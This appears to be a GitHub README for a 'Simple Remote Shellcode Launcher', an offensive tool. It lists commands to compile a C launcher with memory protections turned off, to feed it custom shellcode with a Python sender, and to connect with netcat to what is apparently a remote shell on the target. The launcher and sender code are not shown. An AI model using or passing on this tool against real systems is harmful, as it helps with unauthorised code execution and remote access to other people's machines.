

# Simple Remote Shellcode Launcher


How To Use
=
## Compile C file
```
gcc -fno-stack-protector -z execstack launcher.c -o launcher
```
## Listen To Get Shellcode
```
chmod +x launcher
./launcher
```
## Send Shellcode
```
python sender.py
```
## Connect To Client
```
nc -v <HOST> <PORT>
```
## Notes
#### You can change port connection in files and set custom shellcode in ```sender.py``` file.
